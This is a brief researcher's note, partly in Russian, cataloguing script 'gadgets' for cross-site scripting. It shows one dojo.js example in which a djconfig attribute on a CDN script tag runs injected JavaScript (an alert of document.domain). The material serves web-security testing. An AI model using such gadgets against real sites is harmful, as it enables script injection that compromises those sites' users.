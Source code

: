 # Gadgets

Есть немало библиотек, которые дают выполнение произвольного кода by design. Куда их сохранять — хз. Пока сюда.

## dojo.js

link: [https://dojotoolkit.org/](https://dojotoolkit.org/)

Example:

```markup
<script
    src="https:////ajax.googleapis.com/ajax/libs/dojo/1.10.4/dojo/dojo.js"
    djconfig="}-alert(document.domain)-{">
</script>
```
